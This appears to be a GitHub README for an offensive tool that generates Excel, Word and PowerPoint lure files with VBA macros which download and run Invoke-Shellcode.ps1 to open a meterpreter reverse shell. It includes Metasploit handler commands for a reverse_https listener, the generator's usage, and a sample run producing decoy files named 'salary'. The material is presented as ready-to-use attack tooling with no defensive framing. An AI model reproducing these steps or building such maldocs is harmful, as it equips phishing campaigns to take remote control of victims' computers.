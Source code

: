 # Social-Engineering-Toys
Social Engineering Toys  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```

